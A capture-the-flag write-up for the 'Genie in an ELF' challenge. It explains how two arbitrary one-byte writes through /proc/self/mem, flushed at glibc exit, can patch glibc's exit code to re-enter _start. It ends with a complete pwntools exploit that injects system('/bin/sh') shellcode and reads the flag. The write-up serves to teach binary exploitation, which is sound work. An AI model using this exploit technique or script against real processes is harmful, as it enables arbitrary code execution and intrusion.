

# Genie in an ELF - Writeup

> Yesterday, this weird oil lamp-shaped USB stick was laying on the floor, so naturally I've picked it up and responsibly plugged it in. On it there was just a lonely ELF file.
> 
> Clumsy as I am, I stumbled into the ELF file and am trapped here with a Genie that calls it their home. Luckily, they granted me to write two bytes wherever to aid my grand escape. Can you help me break out?


This challenge allows you to write one byte each on two arbitrary locations. This is done by opening two `FILE*` to `/proc/self/mem`. The process' memory mappings and a stack address are also provided.

## Vulnerability

For the writing mechanism, the program opens two separate `FILE*` to `/proc/self/mem`. This is a [very](https://elixir.bootlin.com/linux/v6.12.1/source/fs/proc/base.c#L892) [powerful](https://offlinemark.com/an-obscure-quirk-of-proc/) [file](https://blog.cloudflare.com/diving-into-proc-pid-mem/) that allows us access the process' memory. By seeking and read/writing, you can perform memory accesses:

| C equivalent                     | `/proc/self/mem` equivalent                                |
|----------------------------------|------------------------------------------------------------|
| `*((char*)0xf000ba11) = 0x42;`   | `fseek(file, 0xf000ba11, SEEK_SET); fputc(0x42, file);`    |
| `char a = *((char*)0xf000ba11);` | `fseek(file, 0xf000ba11, SEEK_SET); char a = fgetc(file);` |

The interesting thing about `/proc/self/mem` is that **it can write to read-only memory regions**, allowing us to **overwrite read-only, executable code**.

-----

TODO: does \n have any other effect (default buffer mode may be linebuf)


While the data is "written" using `fwrite` into the `FILE*` instances, when inspecting the program in GDB, the changes at first do not seem like they've been applied. This is where buffering and leaving a `FILE*` open plays us a trick:

For performance reason, glibc does not want to write every single byte out into the file immediately, but instead buffers them until enough data has accumulated. On the very first write, if no buffer has been explicitly set with `setvbuf`, per default, glibc sets up the file fully-buffered with 8KiB of buffer (call chain [fwrite](https://elixir.bootlin.com/glibc/glibc-2.39/source/libio/iofwrite.c#L39) -> [_IO_sputn](https://elixir.bootlin.com/glibc/glibc-2.39/source/libio/libioP.h#L380) -> [_IO_new_file_xsputn](https://elixir.bootlin.com/glibc/glibc-2.39/source/libio/fileops.c#L1244) -> [_IO_new_file_overflow](https://elixir.bootlin.com/glibc/glibc-2.39/source/libio/fileops.c#L745) -> [_IO_doallocate](https://elixir.bootlin.com/glibc/glibc-2.39/source/libio/genops.c#L347) -> [_IO_default_doallocate](https://elixir.bootlin.com/glibc/glibc-2.39/source/libio/genops.c#L477)).

Thus, when we write our two bytes, two new buffers are allocated and the bytes are placed in there first.

To actually write the data out to the file (or memory, in our case), the buffer must be flushed, either explicitly using `fflush`, or implicitly e.g. using `fclose`. The program, however, is neither flushing nor closing the files:


Of course, if a program did not cleanly close all files, glibc is not just discarding the unflushed data. Internally, it keeps a linked list of open `FILE*` instances that exist.
When the `main` eventually returns into the glib, [`exit` with the return value is called](https://elixir.bootlin.com/glibc/glibc-2.39/source/sysdeps/nptl/libc_start_call_main.h#L58). Before [`exit`](https://elixir.bootlin.com/glibc/glibc-2.39/source/stdlib/exit.c#L136) does an actual [`exit_group`](https://elixir.bootlin.com/glibc/glibc-2.39/source/sysdeps/unix/sysv/linux/_exit.c#L26) syscall, it runs some exit handlers, most notably for us [`_IO_cleanup`](https://elixir.bootlin.com/glibc/glibc-2.39/source/stdlib/exit.c#L129).

[The `_IO_cleanup` function](https://elixir.bootlin.com/glibc/glibc-2.39/source/libio/genops.c#L841) is responsible for cleaning up the remaining open files, [flushing](https://elixir.bootlin.com/glibc/glibc-2.39/source/libio/genops.c#L685) and [unbuffering](https://elixir.bootlin.com/glibc/glibc-2.39/source/libio/genops.c#L771) the `FILE`s in the linked list from most to least recently created. For us, this is the location where our requested writes do finally happen.


Now that we know _where_ the bytes are applied, we can see there is not a lot of code running _afterwards_:
- After the two arbitrary-write `FILE`s, the loop in `_IO_flush_all` also flushes `stderr`, `stdout` and `stdin`, before returning to `_IO_cleanup`.
- `_IO_cleanup` further calls `_IO_unbuffer_all` which `free`s the buffers of all `FILE`s.
- `_IO_cleanup` is done and returns back to its caller, `__run_exit_handlers` (which is the function that handles `exit`).
- `__run_exit_handlers` calls `_exit`, which executes the `exit_group` syscall in a loop (should the syscall not work for some reason)

This little amount of code afterwards limits us quite in our attack vector.

## Exploitation Strategy

For the exploit, I focused on patching glibc's code in such a way that we can force a reentry into `main`.

As explained above, there is not a lot of surface for us to approach. We do not want to modify code of functions that our `main` depends on, lest it breaks. Luckily, `exit`, `_exit`, `__run_exit_handlers`, `_IO_cleanup`, `_IO_flush_all` and `_IO_unbuffer_all` are all unique to the exit flow, so we can patch these to our heart's content.

> :warning: **Note:** `_IO_unbuffer_all` has been inlined into `_IO_cleanup`. Offsets in `gdb` and `objdump` will show both as one, but where possible I try to distinguish both with `glibc`'s debugging information.


Now, to get back to `main`, we somehow have to set `rip` into `main` or `_start`. As we won't really be able to write the address or modify an existing one with only two bytes, we have to rely on an existing reference to the binary code. This is where the stack comes in quite handy:

To analyze the stack we can `break write` when the `/proc/self/mem` files are written. The code from the first four frames we cannot touch, so we can ignore them and just `finish` four times to reach the frame at offset `0x961d6` in `_IO_flush_all`. Looking at the stack:


Found it!

---

Probably the easiest way from here is to try to `ret` to any of the functions.
Unfortunately, these stack elements are quite far off: The very first `main` is located `0x188` bytes from the current `rsp` position in `_IO_flush_all`'s frame, or `0x108` in `_IO_cleanup`'s frame. Only functions `_IO_flush_all` and `_IO_cleanup` do return (`__run_exit_handlers` directly calls `_exit`) and they only have a `add rsp, ...` with a **signed** 8-bit immediate, so the best we could do is `0xf0` out of the box by replacing both immediates with `0x78`. Also, the functions these two functions are required by `main`, so we cannot adapt their epilogue.
To proceed furhter, we need to **find a way to advance `rsp` by `0x1__` or `0x2__`**.

The new strategy is to patch **one** byte of `jmp`/`call` displacement or return address, so that we reach a `add rsp, 0x1__` or `add rsp, 0x2__` and `ret` gadget, and use the **second** byte write to fix up the offset we need in the `rsp` gadget.

There are a few glibc function eqilogues that give us a gadget to do this. To find them, objdump can be used for example: `objdump -mi386:x86-64:intel -d libc.so.6 | less` and searching for `add    rsp,0x1[0-9][0-9]`.

Unfortunately, no return address seemed to be feasible to the task (aside from the fact that patching the return address is a bit finicky and may require restarts if ASLR is bad).
Also, none of the displacements in all encountered (and not mandatory for `main`) `jmp`/`call` instructions seemed to be suitable at first because they jumped to undesirable/bad instructions before the `add`.

---

There is however a indirect chain to the gadget possible: The `FILE*` loop of `_IO_unbuffer_all` performs a NULL check and has a conditional jump at offset `0x9696e`:

```
9696e:       0f 85 0c ff ff ff       jne    96880 <_IO_cleanup+0xb0>
```

This negative displacement allows us to reach the `rsp` gadgets before that. By modifying the second-least significant byte of the displacement (the first `ff`) to `0x0b`, we can jump to offset `0x87480` instead of the intended `0x96880`!

At first this target looks pretty off. 

```
87480:       41 83 7d 70 ff          cmp    DWORD PTR [r13+0x70],0xffffffff
87485:       75 ba                   jne    87441 <_IO_proc_open@@GLIBC_2.2.5+0x61>
```

However, we are located in the middle of `_IO_new_proc_open` (which is the internal `popen` implementation). In [line 144](https://elixir.bootlin.com/glibc/glibc-2.39/source/libio/iopopen.c#L144), it performs a check whether the "file" is open by comparing `[r13 + 0x70]` with `-1` and, if it is open (i.e. != -1), **returns NULL**. Luckily, when we reach here `r13` is a valid pointer *and* is not -1, so we jump up to the stack canary check (which matches up with the offset where `_IO_unbuffer_all`/`_IO_cleanup` stores the stack canary) and finally have a function epilogue with `add rsp, 0x108`!

```
87441:       31 c0                   xor    eax,eax
87443:       48 8b 55 c8             mov    rdx,QWORD PTR [rbp-0x38]
87447:       64 48 2b 14 25 28 00    sub    rdx,QWORD PTR fs:0x28
8744e:       00 00 
87450:       0f 85 37 04 00 00       jne    8788d <_IO_proc_open@@GLIBC_2.2.5+0x4ad>
87456:       48 81 c4 08 01 00 00    add    rsp,0x108
8745d:       5b                      pop    rbx
8745e:       41 5c                   pop    r12
87460:       41 5d                   pop    r13
87462:       41 5e                   pop    r14
87464:       41 5f                   pop    r15
87466:       5d                      pop    rbp
87467:       c3                      ret
```

After arriving at the `ret`, we can finally analyze by how much we have to adapt the `rsp` gadget immediate:


So by writing `0x90` into the LSB of the immediate (`0x87459`) we are able to use `_start`, neat!

> :warning: **Note**: `main` will not work due to stack alignment and `movabs`. Also, we are pretty far in glibc's cleanup, so the cleanest way is to use `_start` to re-initialize the `glibc` as well.

Plugging in these values, we are greeted with `main` once more!




### Stabilizing reentrance

Now that we have a running reentry, we can finally pwn the challenge - almost. In its current state we cannot yet reenter another time, sadly:


Let's break at the `add` gadget when doing the second reentry and have a look:


The only `_start` was consumed by the `ret`. No new `_start` is placed on the stack (I have to dig into it, but I presume it is coming from the linker before calling into `_start`). Instead, we've got return address `_start+0x25` which will always be placed at the same offset now. As we can see, it is placed `0x1e8` bytes away from the current `rsp`. Thus, deducting the 6 `pop`s between the `add` and `ret`, we get our new `add` immediate at `0x1e8 - 6*8 = 0x1e8 - 0x30 = 0x1b8`. Thus we have to patch the `add` immediate once again to `0xb8` to achieve reentrance.

As a tradeoff, though, we have to always patch the return address with each reentrance, so that we jump into `_start` instead of `_start+0x25`.

### Writing the shellcode

With a stable reentrance (and the required patching of the return address), we are now able to write one byte per reentry. This allows us to write simple shellcode that calls `system` with `/bin/sh`.

For this task, I've opted to write the shellcode starting at the original return address that `_start` places when calling `__libc_start_main`: This location is executable, is not critical to the program execution, and would be immediately executed if we do not patch the return address.

> :information_source: **Note:** `_start` is `pop`ing, 16-byte aligning the stack and `push`ing two values. This moves the return address by 0x10 bytes every reentry. A different return address other than plain `_start` could have been used to prevent that.


## Exploit


```python
#!/usr/bin/env -S python3 -u

# [...]

def get_mapping_for(io: tube, lib: str):
    leak = io.recvuntil(lib.encode()).decode()
    leak = leak.rsplit("\n", maxsplit=1)[1]
    return int(leak.split("-", maxsplit=1)[0], 16)

def write_byte(io: tube, addr: int, data: int):
    assert data >= 0 and data <= 255
    io.sendlineafter(b"What address do you desire for your", hex(addr).encode())
    io.sendlineafter(b"And what byte do you wish here?\n", hex(data).encode())

def check_reentry(io: tube):
    assert io.recvuntil(b"I'm a genie in an ELF", timeout=3) != b""

io = start()

# We are presented with the mapping and a stack "leak". Parse it
exe.address = get_mapping_for(io, "/app/challenge")
info(f"challenge base: {exe.address = :x}")
libc.address = get_mapping_for(io, "libc.so.6")
info(f"libc base: {libc.address = :x}")

io.recvuntil(b"My card deck stacks ")
stack_leak = int(io.recvuntil(b" "), 16)
info(f"Got stack address: {stack_leak = :x}")

# Now, we can finally do the writing!

# 1. Reentry
# To reenter main, we want to call main or _start.
# Luckily for us, both are readily available on the stack!
# The strategy is to change a jmp/call displacement so that we
# can add enough to the RSP and just RET to it.
# Problem is: _start is so far away, that we need to add 0x1xx, and there are
# not a lot of opportunities for that here
# Tip: `objdump -mi386:x86-64:intel -d libc.so.6 | less` and then `/add    rsp,0x1[0-9][0-9]`
#
# We target _IO_unbuffer_all which is called as a IO finalizer on exit
# but _after_ the flushing
# In particular, the NULL check in line 780: https://elixir.bootlin.com/glibc/glibc-2.39/source/libio/genops.c#L780
# 9696e:       0f 85 0c ff ff ff       jne    96880 <_IO_cleanup+0xb0>
# This jump displacement is perfect to set up so that we can jump to 0x87480 instead by writing 0x0b into 96971.
# Thus we land in the middle of _IO_proc_open.
# This is not directly on add rsp/ret, but close enough.
# It does a check on r13 (which luckily has a pointer and sets the jump),
# zeros the return value, checks the stack canary (which luckily matches with _IO_unbuffer_all's canary offset)
# adds/pops/rets.
# Instead of only 0x108, we want to add 0x88 more to reach _start
info("Setting up first reentry...")
IO_UNBUFFER_ALL_OFFSET = 0x96971
IO_PROC_OPEN_ADD_RSP_OFFSET = 0x87459

write_byte(io, libc.address + IO_PROC_OPEN_ADD_RSP_OFFSET, 0x90)
write_byte(io, libc.address + IO_UNBUFFER_ALL_OFFSET, 0x0b)
check_reentry(io)

# 2. Stabilizing reentry
# Now that we reentered, we have to stabilize it.
# We've consumed the only _start on the stack, but due to
# _start `call`ing into _libc_start_main, there is a return
# address on the stack - but it is on a different offset and
# unfortunately points _after_ the main call to a `hlt`.
# -> use the next two writes to change the add rsp offset to the return address
#    and to fix the return address so that it is at the start again.
info("Stabilizing reentry...")
STACK_RETURN_ADDR = stack_leak + (0x7fffffffc528 - 0x7fffffffc3f0)

write_byte(io, libc.address + IO_PROC_OPEN_ADD_RSP_OFFSET, 0xb8)
write_byte(io, STACK_RETURN_ADDR, 0x80)
check_reentry(io)

# 3. WRITING
# Now we can finally write our shellcode into the process
# However, as we always have to fix the return address, only one byte can be
# written
# The stack return address also decrements by 0x10 every reentry.
info("Injecting shell shellcode...")
code = asm(f"""
    mov rdi, {next(libc.search(b"/bin/sh"))}
    mov rax, {libc.symbols["system"]}
    call rax
""")
info(hexdump(code))
CHALL_START_RET_ADDR = exe.symbols["_start"] + 0x25

for i in range(len(code)):
    info(f" - {i} / {len(code)}")
    STACK_RETURN_ADDR -= 0x10

    write_byte(io, CHALL_START_RET_ADDR + i, code[i])
    write_byte(io, STACK_RETURN_ADDR, 0x80)
    check_reentry(io)


# Now, we just have to go let the program pass "normally"
# It will return to the shellcode and give us a shell
# As address 0x0 is invalid, we cannot seek here.
# There are no checks, so its a fine no-op
info("Entering shell...")
write_byte(io, 0, 0)
write_byte(io, 0, 0)

sleep(0.2)
io.sendline(b"cat /flag.txt && exit")

f = find_flag(io.recvall())
if f is not None:
    log.success(f)
    exit(0)
else:
    # Remember to return nonzero if something failed
    exit(1)

#io.interactive()
```


